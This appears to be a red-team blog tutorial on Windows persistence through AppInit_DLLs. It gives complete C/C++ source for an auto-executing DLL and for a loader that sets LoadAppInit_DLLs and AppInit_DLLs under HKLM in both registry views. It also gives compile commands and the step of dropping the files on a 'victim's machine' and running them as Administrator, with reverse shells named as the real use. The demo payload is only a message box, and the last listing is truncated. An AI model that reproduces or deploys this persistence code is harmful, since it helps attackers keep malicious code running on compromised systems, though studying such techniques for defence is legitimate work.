










# 05 persistence - AppInit DLLs

Windows operating systems have the functionality to allow nearly all application processes to load custom DLLs into their address space.
This allows for the possibility of persistence, as any DLL may be loaded and executed when application processes are created on the system.   

Administrator level privileges are necessary to implement this trick. The following registry keys regulate the loading of DLLs via AppInit:

- `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Windows` - 32-bit

- `HKEY_LOCAL_MACHINE\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows` - 64-bit

We are interested in the following values:

```powershell
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /s
```

    

Microsoft to protect Windows users from malware has disabled by default the loading of DLLs's via AppInit (`LoadAppInit_DLLs`). However, setting the registry key `LoadAppInit_DLLs` to value `1` will enable this feature.   

First of all, create "evil" DLL. As usual I will take "Hello, Prishtina!" messagebox pop-up logic:

```cpp
/*
 * Malware Persistence 101
 * hack.cpp
 * message box
 * author: @cocomelonc
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

extern "C" {
  __declspec(dllexport) BOOL WINAPI runMe(void) {
  MessageBoxA(NULL, "Hello, Prishtina!", "=^..^=", MB_OK);
  return TRUE;
  }
}

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    runMe();
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Let's go to compile it:

```bash
x86_64-w64-mingw32-gcc -shared -o hack.dll hack.cpp -fpermissive
```

   

Then create script for the simple logic: changing the registry key `AppInit_DLLs` to contain the path to the DLL, as a result, `hack.dll` will be loaded:    

```cpp
/*
 * Malware Persistence 101
 * pers.c
 * windows low level persistense via Appinit_DLLs
 * author: @cocomelonc
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious DLL
  const char* dll = "Z:\\hack.dll";
  // activation
  DWORD act = 1;

  // 32-bit and 64-bit
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Windows", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"LoadAppInit_DLLs", 0, REG_DWORD, (const BYTE*)&act, sizeof(act));
    RegSetValueEx(hkey, (LPCSTR)"AppInit_DLLs", 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  }

  res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Wow6432Node\\Microsoft\\Windows NT\\CurrentVersion\\Windows", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"LoadAppInit_DLLs", 0, REG_DWORD, (const BYTE*)&act, sizeof(act));
    RegSetValueEx(hkey, (LPCSTR)"AppInit_DLLs", 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, setting the registry key `LoadAppInit_DLLs` to value `1` is also important.    

Compile it:

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

    

Drop all to victim's machine (`Windows 10 x64` in my case).    

   

Then run as Administartor:    

```powershell
.\pers.exe
```

and:   

```powershell
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /s
reg query "HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /s
```

just check.   

    

Then, for demonstration, open something like `Paint` or `Notepad`:    

   

So, everything is worked perfectly :)

However, this method's implementation may result in stability and performance difficulties on the target system:    

    

Furthermore, I think that the logic of the first DLL's is considered very odd since multiple message boxes popup, so when we act real-life action in red team scenarios: it's very noisy, for example for multiple reverse shell connections.    

I tried updating little bit the logic of `hack.dll`:   

```cpp
/*
 * Malware Persistence 101
 * hack2.cpp
 * message box for paint
 * author: @cocomelonc
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

char* subStr(char *str, char *substr) {
  while (*str) {
    char *Begin = str;
    char *pattern = substr;
    while (*str && *pattern && *str == *pattern) {
      str++;
      pattern++;
    }
    if (!*pattern)
  	  return Begin;

    str = Begin + 1;
  }
  return NULL;
}

extern "C" {
  __declspec(dllexport) BOOL WINAPI runMe(void) {
  MessageBoxA(NULL, "Meow, Prishtina!", "=^..^=", MB_OK);
  return TRUE;
  }
}

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  char path[MAX_PATH];
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    GetModuleFileName(NULL, path, MAX_PATH);
    if (subStr(path, (char *)"paint")) {
      runMe();
    }
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE
```

As you can see, if the current process is `paint` (and is 32-bits) then, "inject" :)    

Compile it:    

```bash
x86_64-w64-mingw32-gcc -shared -o hack.dll hack2.cpp -fpermissive
```

    

And move it and try to open `paint` again:    

    

   

Perfect! :)